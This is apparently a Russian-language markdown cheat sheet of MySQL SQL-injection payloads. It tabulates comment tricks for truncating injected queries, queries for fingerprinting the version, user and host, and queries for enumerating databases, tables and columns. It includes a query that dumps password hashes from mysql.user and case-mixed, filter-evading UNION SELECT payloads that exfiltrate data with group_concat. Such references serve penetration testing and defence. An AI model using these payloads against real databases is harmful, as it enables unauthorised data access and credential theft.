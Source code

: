 ## My SQL    
|Команда|Код|
|----------------|-------------------------------|
|Коментарии  | #<br>/*<br>-- -<br>;%00|   
|Получение версии | SELECT VERSION();<br>SELECT @@VERSION;<br>SELECT @@GLOBAL.VERSION;|   
|Получение информации о пользователе | SELECT user()<br>SELECT current_user()<br>SELECT system_user()<br>SELECT session_user()<br>SELECT user,password FROM mysql.user;|   
|Получение хэшей паролей |SELECT host, user, password FROM mysql.user;|   
|Получение текущей базы данных | SELECT database()<br>SELECT db_name();<br>SELECT database();<br>SELECT schema_name FROM<br>information_schema.schemata;|   
|Вывод списка баз данных  |SELECT schema_name FROM information_schema.schemata;<br>SELECT distinct(db) FROM mysql.db |   
|Вывод списка колонок  |SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’<br>SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename'; |   
|Вывод таблиц  | SELECT table_name FROM information_schema.tables;<br>SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’|
|Поиск имени таблицы по колонкам, содержащимся в ней | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’;|
|Получение имени хоста |SELECT @@hostname; |
|Union based  |UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name, 0x7c)+fRoM+information_schema.schemata<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name, 0x7C)+fRoM+information_schema.tables+ wHeRe+table_schema=…<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name, 0x7C)+fRoM+information_schema.columns+ wHeRe+table_name=…<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM +.. |
| | |


<br>
